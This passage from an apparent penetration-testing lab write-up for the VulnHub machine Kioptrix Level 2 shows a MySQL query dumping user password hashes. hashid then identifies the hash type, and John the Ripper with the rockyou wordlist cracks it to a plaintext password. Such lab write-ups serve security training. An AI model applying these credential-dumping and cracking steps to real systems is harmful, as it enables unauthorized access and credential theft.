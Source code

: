 ```mysql
| x509_issuer           | blob                              |      |     |         |       |
| x509_subject          | blob                              |      |     |         |       |
| max_questions         | int(11) unsigned                  |      |     | 0       |       |
| max_updates           | int(11) unsigned                  |      |     | 0       |       |
| max_connections       | int(11) unsigned                  |      |     | 0       |       |
+-----------------------+-----------------------------------+------+-----+---------+-------+
31 rows in set (0.00 sec)

mysql> select Host, User, Password from user;
+-----------------------+------+------------------+
| Host                  | User | Password         |
+-----------------------+------+------------------+
| localhost             | root | 5a6914ba69e02807 |
| localhost.localdomain | root | 5a6914ba69e02807 |
| localhost.localdomain |      |                  |
| localhost             |      |                  |
| localhost             | john | 5a6914ba69e02807 |
+-----------------------+------+------------------+
5 rows in set (0.00 sec)
```

Because there are a large number of columns in the table, we can select only the columns that we are interested in which are `Host, User and Password`.

From the table, we can see that for both `root` and `john` the password value is same. This password appears to be a hash and to check that we can use `hashid`

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ hashid 5a6914ba69e02807
Analyzing '5a6914ba69e02807'
[+] MySQL323 
[+] DES(Oracle) 
[+] Half MD5 
[+] Oracle 7-10g 
[+] FNV-164 
[+] CRC-64 
[+] Cisco-PIX(MD5) 
[+] Cisco-ASA(MD5) 
```

As per `hashid` this hash could be a MySQL323 hash. So, we can use `john` to crack this hash.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ echo 5a6914ba69e02807 > hash
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt --format=mysql
Using default input encoding: UTF-8
Loaded 1 password hash (mysql, MySQL pre-4.1 [32/64])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
hiroshima        (?)
1g 0:00:00:00 DONE (2021-04-28 23:59) 20.00g/s 1085Kp/s 1085Kc/s 1085KC/s iiloveyou..250895
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
